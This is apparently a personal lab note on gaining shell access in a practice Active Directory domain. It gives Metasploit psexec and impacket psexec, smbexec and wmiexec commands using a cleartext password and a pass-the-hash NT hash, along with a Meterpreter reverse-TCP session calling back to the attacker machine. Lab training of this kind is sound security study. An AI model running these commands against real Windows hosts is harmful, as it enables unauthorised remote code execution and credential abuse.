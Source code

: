 # Gaining Shell Access
> 01.08.2024
---

## Gaining Shell Access:

**Via Metasploit / password needed:**
```bash
msfconsole -q
use exploit/windows/smb/psexec
```
Set either the `SMBPass` with the enumerated Password, or set it to a hash

**Via psexec / password needed:**
```bash
psexec.py marvel.local/fcastle:'Password1'@10.0.2.5
```
More quiet option.

**Via psexec / hash needed:**
```bash
psexec.py administrator@10.0.2.5 -hashes LM:NT
```

## Lab hacking:

MARVEL-DC:  `192.168.19.128`
THEPUNISHER: `192.168.19.129`
SPIDERMAN: `192.168.19.130`
HackerMan: `192.168.19.131`


**Setting up Metasploit:**

```bash
msfconsole -q
use exploit/windows/smb/psexec
set payload windows/x64/meterpreter/reverse_tcp
set RHOSTS 192.168.19.129
set smbdomain MARVEL.local
set smbuser fcastle
set smbpass Password1
run
```

**Background session and interact with sessions:**
```bash
meterpreter > background
sessions
sessions 1
```

**Hash attack:**
`administrator:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f`
```bash
set smbuser administrator
unset smbdomain
set smbpass aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
run

[*] Started reverse TCP handler on 192.168.19.131:4444 
[*] 192.168.19.129:445 - Connecting to the server...
[*] 192.168.19.129:445 - Authenticating to 192.168.19.129:445 as user 'administrator'...
[*] 192.168.19.129:445 - Selecting PowerShell target
[*] 192.168.19.129:445 - Executing the payload...
[+] 192.168.19.129:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (201798 bytes) to 192.168.19.129
[*] Meterpreter session 2 opened (192.168.19.131:4444 -> 192.168.19.129:49511) at 2024-08-01 12:43:50 -0500

meterpreter >
```
Password reuse! peterparker hash is the same as frankcastle hash.

**Manual way / with psexec:**
```bash
impacket-psexec MARVEL/fcastle:'Password1'@192.168.19.129

Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on 192.168.19.129.....
[*] Found writable share ADMIN$
[*] Uploading file jKPkWteS.exe
[*] Opening SVCManager on 192.168.19.129.....
[*] Creating service qaUG on 192.168.19.129.....
[*] Starting service qaUG.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19045.4651]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> 
```

**Manual way / with psexec + hash:**
```bash
impacket-psexec administrator@192.168.19.129 -hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f 

Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on 192.168.19.129.....
[*] Found writable share ADMIN$
[*] Uploading file GJJwOpGH.exe
[*] Opening SVCManager on 192.168.19.129.....
[*] Creating service MRXo on 192.168.19.129.....
[*] Starting service MRXo.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19045.4651]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```


**Manual way / smbexec:**
```bash
impacket-smbexec MARVEL/fcastle:'Password1'@192.168.19.129

Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>
```

*With hash:*
```bash
impacket-smbexec administrator@192.168.19.129 -hashes 
aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f

Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>

```


**Manual way / wmiexec:**

```bash
impacket-wmiexec MARVEL/fcastle:'Password1'@192.168.19.129
```

*With hash:*
```bash
impacket-wmiexec administrator@192.168.19.129 -hashes 
aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f

